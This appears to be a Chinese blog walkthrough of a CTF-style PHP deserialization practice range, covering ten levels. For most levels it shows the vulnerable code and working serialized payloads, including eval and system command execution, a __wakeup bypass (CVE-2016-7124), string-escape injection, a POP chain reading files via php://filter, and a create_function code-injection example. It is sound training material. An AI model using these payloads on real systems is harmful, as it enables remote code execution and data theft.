




前几天在github上发现一个关于php反序列化漏洞的练习靶场，根据作者描述，是根据CTF题目进行改编的，正好对php反序列化的内容好像忘得差不多了，于是在自己的vps上用docker搭建起一个环境来练习一下。项目地址：

https://github.com/fine-1/php-SER-libs ， 靶机地址：http://101.43.8.119:8088/php-SER-libs/level1/  （这个vps只有一年，不懂哪天就倒闭了）

下面开始进行闯关：

#### 1.第一关

第一关代码：

```php
<?php
highlight_file(__FILE__);
class a{
    var $act;
    function action(){
        eval($this->act);
    }
}
$a=unserialize($_GET['flag']);
$a->action();
?>
<br><a href="../level2">点击进入第二关</a>
```

本关将GET方式传进去的flag，进行反序列化，并将结果赋值给变量$a,$a再执行类里的action方法，而action方法里面有会调用eval，执行$act变量,因此我们将$act的值设为show_source('flag.php');直接读取flag.php的内容，POC如下：

```php
<?php
class a{
    var $act = "show_source('flag.php');";
    function action(){
        eval($this->act);
    }
}
$a=new a();
$a->action();
echo serialize($a); 
//  O:1:"a":1:{s:3:"act";s:24:"show_source('flag.php');";}
?>
 
```




#### 2.第二关

第二关源代码如下：

```php
<?php
highlight_file(__FILE__);
include("flag.php");
class mylogin{
    var $user;
    var $pass;
    function __construct($user,$pass){
        $this->user=$user;
        $this->pass=$pass;
    }
    function login(){
        if ($this->user=="daydream" and $this->pass=="ok"){
            return 1;
        }
    }
}
$a=unserialize($_GET['param']);
if($a->login())
{
    echo $flag;
}
?> 
```

上面的代码的意思是包含了flag.php,并且定义了一个login方法，里面的$user要等于daydream，和$pass要等于ok，就会打印出flag，因此可以跟着构造poc：

```php
<?php
class mylogin{
    var $user = "daydream";
    var $pass = "ok";
  
}
$a = new mylogin();
$a=serialize($a);
echo $a;   // O:7:"mylogin":2:{s:4:"user";s:8:"daydream";s:4:"pass";s:2:"ok";} 
?> 
```

得到flag：



#### 3.第三关

第三关代码如下：

```php
<?php
highlight_file(__FILE__);
include("flag.php");
class mylogin{
    var $user;
    var $pass;
    function __construct($user,$pass){
        $this->user=$user;
        $this->pass=$pass;
    }
    function login(){
        if ($this->user=="daydream" and $this->pass=="ok"){
            return 1;
        }
    }
}
$a=unserialize($_COOKIE['param']);
if($a->login())
{
    echo $flag;
}
?> 
```

这一关的代码和上一关的代码内容类似，只不过这个是利用cookie来来进行传参，用cookie来传参需要进行url编码，因此poc改为：

```php
<?php
class mylogin{
    var $user = "daydream";
    var $pass = "ok";
  
}
$a = new mylogin();
$a=serialize($a);
echo urlencode($a);   //  O%3A7%3A%22mylogin%22%3A2%3A%7Bs%3A4%3A%22user%22%3Bs%3A8%3A%22daydream%22%3Bs%3A4%3A%22pass%22%3Bs%3A2%3A%22ok%22%3B%7D 
?> 
```



#### 4.第四关

第四关代码如下：

```php
<?php 
highlight_file(__FILE__);
class func
{
        public $key;
        public function __destruct()
        {        
                unserialize($this->key)();
        } 
}

class GetFlag
{       public $code;
        public $action;
        public function get_flag(){
            $a=$this->action;
            $a('', $this->code);
        }
}

unserialize($_GET['param']);

?>
```

这一关有两个类，func类的key在反序列化时会自动反序列化，所以先反序列化func类，然后将func类的key赋值为GetFlag类的get_flag方法，而且里面有个动态函数执行可以create_funtion函数来进行执行后面部分的代码，具体的poc如下：


```php
<?php
highlight_file(__FILE__);
class func
{
    public $key;
    public function __destruct()
    {
        unserialize($this->key)();
    }
}

class GetFlag
{
    public $code;
    public $action;
    public function get_flag(){
        $a=$this->action;
        $a('', $this->code);
    }
}
$a1=new func();
$b=new GetFlag();
$b->code='}include("flag.php");echo $flag;//';
$b->action="create_function";
$a1->key=serialize(array($b,"get_flag"));
echo serialize($a1);
//O:4:"func":1:{s:3:"key";s:136:"a:2:{i:0;O:7:"GetFlag":2:{s:4:"code";s:34:"}include("flag.php");echo $flag;//";s:6:"action";s:15:"create_function";}i:1;s:8:"get_flag";}";}
?>
```



在这里简单介绍一下create_funtion()函数:

功能：根据传递的参数创建匿名函数，并为其返回唯一名称。

语法：

```php
create_function(string $args,string $code)
string $args 声明的函数变量部分
  
string $code 执行的方法代码部分
```

代码注入案例：

```php
<?php
error_reporting(0);
$sort_by = $_GET['sort_by'];
$sorter = 'strnatcasecmp';
$databases=array('1234','4321');
$sort_function = ' return 1 * ' . $sorter . '($a["' . $sort_by . '"], $b["' . $sort_by . '"]);';
usort($databases, create_function('$a, $b', $sort_function));
?>
```

poc 为[http://localhost/test1.php?sort_by=%27%22\]);}phpinfo();/*](http://localhost/test1.php?sort_by='"]);}phpinfo();/*)

还原实际组合过程：

```php
$sort_function = ' return 1 * ' . $sorter . '($a["' . $sort_by '"]);}phpinfo();/*
```

匿名函数实际执行的是：

```php
function niming($a,$b){
return 1 * ' . $sorter . '($a["' . $sort_by '"]);}phpinfo();/*
}
```

回车换行整理一下：

```php
function niming($a,$b){
return 1 * ' . $sorter . '($a["' . $sort_by '"]);
}
phpinfo();/*
}
```

#### 5.第五关

第五关的代码为：

```php
<?php
    class secret{
        var $file='index.php';

        public function __construct($file){
            $this->file=$file;
        }

        function __destruct(){
            include_once($this->file);
            echo $flag;
        }

        function __wakeup(){
            $this->file='index.php';
        }
    }
    $cmd=$_GET['cmd'];
    if (!isset($cmd)){
        echo show_source('index.php',true);
    }
    else{
        if (preg_match('/[oc]:\d+:/i',$cmd)){
            echo "Are you daydreaming?";
        }
        else{
            unserialize($cmd);
        }
    }
    //sercet in flag.php
?>
```

本关涉及一个漏洞，CVE-2016-7124，当反序列化字符串中，表示属性个数的值大于真实属性个数时，会绕过 __wakeup 函数的执行。而对于正则匹配，可以利用+绕过，因为+6和6实际上是一样的，下面是poc：

```php
<?php
class secret{
    var $file='index.php';

    public function __construct($file){
        $this->file=$file;
        echo $flag;
    }

    function __destruct(){
        include_once($this->file);
    }

    function __wakeup(){
        $this->file='index.php';
    }
}
$pa=new secret('flag.php');
echo serialize($pa),"\n";//O:6:"secret":1:{s:4:"file";s:8:"flag.php";}
$cmd=urlencode('O:+6:"secret":2:{s:4:"file";s:8:"flag.php";}');
echo $cmd;
?>
```

#### 6.第六关

第六关代码如下：

```php
<?php
highlight_file(__FILE__);
class secret{
    private $comm;
    public function __construct($com){
        $this->comm = $com;
    }
    function __destruct(){
        echo eval($this->comm);
    }
}
$param=$_GET['param'];
$param=str_replace("%","daydream",$param);
unserialize($param);
?>
<br><a href="../level7">点击进入第七关</a>
```

这一关考的时私有属性的反序列化，这这里有一个要点就是在Private 权限私有属性序列化的时候格式是 %00类名%00属性名，在Protected 权限序列化的时候格式是 %00*%00属性名，因此本题payload的构造如下：

```php
<?php
class secret{
    private $comm;
    public function __construct($com){
        $this->comm = $com;
    }
    function __destruct(){
        echo eval($this->comm);
    }
}
$pa=new secret("system('type flag.php');");
echo serialize($pa),"\n";
//O:6:"secret":1:{s:12:" secret comm";s:24:"system('type flag.php');";}
//O:6:"secret":1:{S:12:"\00secret\00comm";s:24:"system('type flag.php');";}
?>
```


#### 7. 第七关

第七关代码如下：

```php
<?php
highlight_file(__FILE__);
class you
{
    private $body;
    private $pro='';
    function __destruct()
    {
        $project=$this->pro;
        $this->body->$project();
    }
}

class my
{
    public $name;

    function __call($func, $args)
    {
        if ($func == 'yourname' and $this->name == 'myname') {
            include('flag.php');
            echo $flag;
        }
    }
}
$a=$_GET['a'];
unserialize($a);
?>
```

这里用_call魔术方法，这个方法在调用不不存在的方法时会触发，在这里是调用$project()方法，可以将其设为不存在的方法，让其调用my类的_call 方法，来输出flag，下面是poc的构造：

```php
<?php
class you
{
    private $body;
    private $pro;
    function __construct(){
        $this->body=new my();
        $this->pro='yourname';
    }
    function __destruct()
    {
        $project=$this->pro;
        $this->body->$project();
    }
}

class my
{
    public $name='myname';

    function __call($func, $args)
    {
        if ($func == 'yourname' and $this->name == 'myname') {
            include('flag.php');
            echo $flag;
        }
    }
}
$p=new you();
echo serialize($p);
//大写S
//O:3:"you":2:{S:9:"\00you\00body";O:2:"my":1:{s:4:"name";s:6:"myname";}S:8:"\00you\00pro";s:8:"yourname";}
?>
```


#### 8. 第八关

第八关代码如下：

```php
<?php
highlight_file(__FILE__);
function filter($name){
    $safe=array("flag","php");
    $name=str_replace($safe,"hack",$name);
    return $name;
}
class test{
    var $user;
    var $pass='daydream';
    function __construct($user){
        $this->user=$user;
    }
}

$param=$_GET['param'];
$profile=unserialize(filter($param));
if ($profile->pass=='escaping'){
    echo file_get_contents("flag.php");
}
?>
```

这题有个过滤函数，会将我们传入的参数进行过滤，过滤规则是将flag、php 替换为hack，对于flag没有问题，而对于php在进行过滤后变成hack，长度有三个字节变成了四个字节，字节变长了。于是会造成反序列化失败，但是正是由于多了个字符，可以利用这一点进行字符串逃逸，下面是poc 的构造：

```php
<?php
highlight_file(__FILE__);
function filter($name){
    $safe=array("flag","php");
    $name=str_replace($safe,"hack",$name);
    return $name;
}
class test{
    var $user;
    var $pass='daydream';
    function __construct($user){
        $this->user=$user;
    }
}
$a=new test('phpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphp";s:4:"pass";s:8:"escaping";}');
//$a=new test('1');  O:4:"test":2:{s:4:"user";s:1:"1";s:4:"pass";s:8:"daydream";}
//逃逸内容：
//";s:4:"pass";s:8:"escaping";}
//计算需要链：
//phpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphp";s:4:"pass";s:8:"escaping";}
$param=serialize($a);
echo $param,"\n";

$profile=unserialize(filter($param));
echo $profile->pass,"\n";
if ($profile->pass=='escaping'){
    echo 1;
}
// O:4:"test":2:{s:4:"user";s:116:"phpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphp";s:4:"pass";s:8:"escaping";}";s:4:"pass";s:8:"daydream";}
?>
 
```


#### 9. 第九关

第9关代码如下：

```php
<?php
  //flag is in flag.php
  highlight_file(__FILE__);
class Modifier {
  private $var;
  public function append($value)
  {
    include($value);
    echo $flag;
  }
  public function __invoke(){
    $this->append($this->var);
  }
}

class Show{
  public $source;
  public $str;
  public function __toString(){
    return $this->str->source;
  }
  public function __wakeup(){
    echo $this->source;
  }
}

class Test{
  public $p;
  public function __construct(){
    $this->p = array();
  }
  
  public function __get($key){
    $function = $this->p;
    return $function();
  }
}

if(isset($_GET['pop'])){
  unserialize($_GET['pop']);
}
?>
```


由代码可以知道这是一个pop链的构造，

首先逆向分析，我们最终是希望通过Modifier当中的append方法实现本地文件包含读取文件，回溯到调用它的__invoke，当我们将对象调用为函数时触发,发现在Test类当中的__get方法，再回溯到Show当中的__toString，再回溯到Show当中的__wakeup当中有preg_match可以触发__toString

```php
<?php
ini_set('memory_limit','-1');
class Modifier {
    protected  $var = 'php://filter/read=convert.base64-encode/resource=flag.php';
}

class Show{
    public $source;
    public $str;
    public function __construct($file){
        $this->source = $file;
        $this->str = new Test();
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = new Modifier();
    }
}
$a = new Show('aaa');
$a = new Show($a);
echo urlencode(serialize($a));
```

```php
__construct()   当一个对象创建时被调用，
__destruct()   当一个对象销毁时被调用，
__toString()   当一个对象被当作一个字符串被调用。
__wakeup()   使用unserialize时触发
__sleep()    使用serialize时触发
__destruct()    对象被销毁时触发
__call()    在对象上下文中调用不可访问的方法时触发
__callStatic()    在静态上下文中调用不可访问的方法时触发
__get()    用于从不可访问的属性读取数据
__set()    用于将数据写入不可访问的属性
__isset()    在不可访问的属性上调用isset()或empty()触发
__unset()     在不可访问的属性上使用unset()时触发
__toString()    把类当作字符串使用时触发,返回值需要为字符串
__invoke()   当脚本尝试将对象调用为函数时触发
__construct ： 在创建对象时候初始化对象，一般用于对变量赋初值。
__destruct ： 和构造函数相反，当对象所在函数调用完毕后执行。
```


#### 10 第十关

第十关代码如下：

```php
<?php
highlight_file(__FILE__);

$c = unserialize($_GET['param']);
$c -> daydream();

/*
In this topic,it is of course possible to pass parameters directly to flag.php, but it is not recommended to use this method to learn SOAP.
flag.php
$flag="*";
$user=$_SERVER['HTTP_USER_AGENT'];
$pass = $_POST['pass'];
if(isset($pass) and isset($user)){
    if($pass=='password' and $user=='admin'){
        file_put_contents('flag.txt',$flag);
    }    
}
*/
?>
```

参考链接：https://blog.csdn.net/solitudi/article/details/113588692